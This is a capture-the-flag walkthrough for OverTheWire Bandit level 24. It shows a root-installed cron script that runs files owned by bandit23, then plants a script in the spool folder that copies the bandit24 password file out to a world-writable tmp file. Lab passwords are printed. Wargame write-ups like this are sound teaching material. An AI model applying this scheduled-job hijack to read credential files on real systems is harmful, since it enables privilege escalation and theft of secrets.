 # ![](https://overthewire.org/img/domokitten.png)

# Bandit_Level24

## Source:
- [Bandit_Level24] - The topic of Bandit, Level24.
###
### I. Connect:
```sh
ssh -p 2220 bandit23@bandit.labs.overthewire.org
Password: QYw0Y2aiA672PsMmh9puTQuhoz8SyR2G
```
### II. My solution:
-  We start as the same way in level22:
```sh
bandit23@bandit:~$ ls -la /etc/cron.d
total 56
drwxr-xr-x   2 root root  4096 Apr 23 18:05 .
drwxr-xr-x 108 root root 12288 Aug 12 08:42 ..
-rw-r--r--   1 root root    62 Apr 23 18:04 cronjob_bandit15_root
-rw-r--r--   1 root root    62 Apr 23 18:04 cronjob_bandit17_root
-rw-r--r--   1 root root   120 Apr 23 18:04 cronjob_bandit22
-rw-r--r--   1 root root   122 Apr 23 18:04 cronjob_bandit23
-rw-r--r--   1 root root   120 Apr 23 18:04 cronjob_bandit24
-rw-r--r--   1 root root    62 Apr 23 18:04 cronjob_bandit25_root
-rw-r--r--   1 root root   201 Jan  8  2022 e2scrub_all
-rwx------   1 root root    52 Apr 23 18:05 otw-tmp-dir
-rw-r--r--   1 root root   102 Mar 23  2022 .placeholder
-rw-r--r--   1 root root   396 Feb  2  2021 sysstat
bandit23@bandit:~$ cat /etc/cron.d/cronjob_bandit24
@reboot bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
* * * * * bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
bandit23@bandit:~$ cat /usr/bin/cronjob_bandit24/sh
cat: /usr/bin/cronjob_bandit24/sh: No such file or directory
bandit23@bandit:~$ cat /usr/bin/cronjob_bandit24.sh
#!/bin/bash

myname=$(whoami)

cd /var/spool/$myname/foo || exit 1
echo "Executing and deleting all scripts in /var/spool/$myname/foo:"
for i in * .*;
do
    if [ "$i" != "." -a "$i" != ".." ];
    then
        echo "Handling $i"
        owner="$(stat --format "%U" ./$i)"
        if [ "${owner}" = "bandit23" ]; then
            timeout -s 9 60 ./$i
        fi
        rm -rf ./$i
    fi
done

```
- The script executes and deletes all files in the folder ‘/var/spool/bandit24/foo’. This is the case because it is run as bandit24 user, so the variable ‘myname’ contains the value ‘bandit24’. The for loop goes through the files. The first if statement makes sure the directories ‘.’ and ‘..’, which are representing the current and previous folders, are ignored. Inside the if statement is the code to execute a script, but only if the owner is bandit23. Then the file will be deleted.
- Lets make a folder in the /tmp directory and use that as the base location for all the operations here on out.
```sh
bandit23@bandit:~$ mktemp -d
/tmp/tmp.dbJd6RvOoq
bandit23@bandit:~$ cd /tmp/tmp.dbJd6RvOoq
```
- Create a file called script.sh using nano and write the following code in the file.
```sh
bandit23@bandit:/tmp/tmp.dbJd6RvOoq$ nano script.sh
#!/bin/bash
cat /etc/bandit_pass/bandit24 > /tmp/tmp.dbJd6RvOoq/password
```
- Then we create a 'password' file to store the password:
```sh
bandit23@bandit:/tmp/tmp.dbJd6RvOoq$ touch password
```
- Now we only need to give the necessary permissions to the folder and the file.
```sh
bandit23@bandit:/tmp/tmp.dbJd6RvOoq$ chmod 777 -R /tmp/tmp.dbJd6RvOoq
```
-  copy the script in the bandit24/foo folder from where the cron job should execute our file.
```sh
bandit23@bandit:/tmp/tmp.dbJd6RvOoq$ cp script.sh /var/spool/bandit24/foo/
```
- Lets view the content of password file
```sh
bandit23@bandit:/tmp/tmp.dbJd6RvOoq$ cat password 
VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar
```
### III. Result:
The password for 'bandit24': VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar

[Bandit_Level24]: <https://overthewire.org/wargames/bandit/bandit24.html>
